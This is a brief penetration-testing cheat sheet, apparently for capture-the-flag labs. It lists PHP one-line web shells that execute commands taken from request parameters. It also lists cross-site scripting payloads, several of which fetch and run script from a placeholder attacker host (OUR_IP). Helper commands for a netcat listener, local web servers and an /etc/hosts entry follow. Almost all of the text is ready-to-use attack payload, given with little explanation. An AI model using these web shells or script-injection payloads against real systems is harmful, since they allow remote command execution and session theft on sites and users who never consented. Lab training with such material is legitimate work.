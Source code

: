 # WEBSHELL
```php
<?php system($_REQUEST['cmd']); ?>
```

```php
<?php system($_GET["cmd"]); ?>
```
# XSS Testing Payloads
```xss
<script>alert(window.origin)</script>
```

```js
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```
# /etc/hosts
```shell
sudo sh -c "echo '<IP> inlanefreight.htb' >> /etc/hosts" 
```
# PHP Webserver
```php
sudo php -S 0.0.0.0:8000
```
# NETCAT LISTENER
```netcat
sudo nc -nlvp <PORT>
```
# PYTHON WEBSERVER
```python
python3 -m http.server 8000
```
